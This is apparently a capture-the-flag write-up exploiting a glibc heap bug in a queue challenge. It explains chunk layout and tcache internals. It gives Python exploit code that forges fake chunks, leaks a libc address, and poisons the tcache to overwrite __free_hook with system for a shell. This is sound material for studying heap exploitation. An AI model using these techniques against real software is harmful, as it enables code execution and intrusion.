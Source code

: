 The layout of a malloced chunk on 64 bit systems looks like this:
```
| 8                      | 8                     | n         |
| size of previous chunk | size of current chunk | user data |
```
malloc returns a pointer to the user data and when a chunk is freed it checks the metadata the comes before the pointer. We can create a fake chunk that is larger than the fastbin size with this layout:
```
| 16                            | 8                   | 8               |
| real `malloc`d chunk metadata | fake chunk prevsize | fake chunk size |
```
Then malloc another chunk and make sure the pointer to that chunk overwrites the head/tail indices of a queue. The use the `pushleft` function on the pointer to decrement it until it points to our fake chunk and free the chunk. Repeat this process 7 times to fill the tcache, then one last time and examine the chunk to read the address of main arena.

```python
for i in range(7):
    malloc("left", 2, b'Z' * 0x08 + b'\x91'); # set index to -1, create fake chunk with size 0x91
    malloc("left", 2, b'I' * 0x09);           # set index to -2, overwrite head/tail of previous queue
    for j in range(0x10):
        malloc("left", 1, b'');               # decrement pointer to point to fake chunk
    free("left", 2);                          # set index to -1, free fake chunk
    free("left", 2);                          # set index to 0, free chunk
    malloc("right", 1, b'S');                 # malloc once more to make sure tcache is empty

malloc("left", 2, b'Y' * 0x08 + b'\x91');     # perform process once last time
malloc("left", 2, b'Y' * 0x09);
for i in range(0x10):
    malloc("left", 1, b'\x91' * 9);

free("left", 2);
leak = u64(view(1, 7)+b"\x00\x00");           # libc leak!
```

Now that we have to address of libc, the simplest way (that I could think of) to grab a shell would be to overwrite `__free_hook` to `system` then free a chunk with `"/bin/sh"`. In order write the address of system into `__free_hook`, we setup up 2 chunks and overlap them so one chunk is contained inside of another.

The tcache (introduced in glibc 2.26) is a collection of 64 singly linked list in LIFO order. Each bin holds a maximum of 7 chunks of a specific size. The bins start at size When a chunk is freed it is appended to the head of the linked list, and when a chunk is removed from the linked list it sets the linked list head to the removed chunks forward pointer.

In order to achieve our write to the `__free_hook` function pointer we free a chunk that is overlapping with another chunk. We free the first chunk, then write into the second chunk to overwrite the freed chunks forward pointer, malloc to place our target address at the head of the tcache bin, and once more to force malloc to return a pointer to `__free_hook` and allows us to write `system` into it.

```python
malloc("left", 4, b'Z' * 0x8 + b'\x41'); # fake chunk with size 0x41
malloc("left", 4, b'I' * (0x8 + 1));
malloc("right", 2, b'');                 # target chunk to overwrite fd pointer
malloc("right", 2, b'');                 # dummy chunk to free before target chunk

for i in range(0x10):
    malloc("left", 3, b'1' * 0x40);
free("left", 4);                        # free fake chunk

free("right", 2);                       # free dummy chunk
free("right", 2);                       # free target chunk, fd -> dummy chunk
                                        # write to overlapping chunk, fd -> __free_hook
malloc("right", 3, b'A' * 0x30 + p64(base+hook).replace(b'\x00', b''));
```